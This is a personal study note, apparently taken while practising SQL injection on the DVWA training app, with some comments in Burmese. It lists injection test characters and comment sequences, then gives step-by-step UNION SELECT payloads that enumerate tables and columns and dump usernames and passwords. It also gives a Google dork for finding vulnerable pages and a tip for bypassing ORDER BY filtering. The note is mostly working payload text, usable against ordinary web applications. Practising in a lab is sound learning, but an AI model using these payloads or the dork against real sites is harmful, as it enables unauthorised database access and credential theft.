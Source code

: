 
1.  Integer base = 1
2.  String Base = '1'    , "1"     ,      `1`

sql test   =>
'
"
(`)
\



sql comment
# 
%23
(`)
%60
(-- -)
--+ 
;


 
Step 1 -> fix the error with command 
(error fix yar mar ' pr yin string base  // ' ma par yin integer base)

Step 2 -> Find the column count with order by

![[Pasted image 20230122113050.png]]

Step 3 -> Find the vlun column with union select 
(pout dae column dwe ma paw yin id shay mr - value lay net san kyi)   -> we use 1,2 cuz we alerady know there is 2 column on second stage

![[Pasted image 20230122113815.png]]

we use concat function id vlun colum was just 1 // we wanna know more information  -> we use ,0x3a3a3a,   to sperate two column

![[Pasted image 20230122115234.png]]


Sql with XSS 
![[Pasted image 20230122120146.png]]

===> Here is with post method   **

![[Pasted image 20230122142121.png]]


Step 4=>  Find the table name from database
10.0.2.9/DVWA/vulnerabilities/sqli/?id=1’ union select group_concat(table_name),2 from information_schema.tables where table_schema=database()-- -&Submit=Submit#


Step 5=> Find the column name from table
1’ union select group_concat(column_name),2 from information_schema.columns where table_schema=database() and table_name='users'-- -&Submit=Submit#

Step 6 => dump data from column
10.0.2.9/DVWA/vulnerabilities/sqli/?id=1’ union select group_concat('<br/>’,user,0x3a3a,password),2 from users-- -&Submit=Submit


-------
inurl"index.php id=’    => google docking 

*** orderby ko block htar yin groupby ko use




=>  blind base and error base 
[https://pastebin.com/V6pwM7KF](https://pastebin.com/V6pwM7KF)




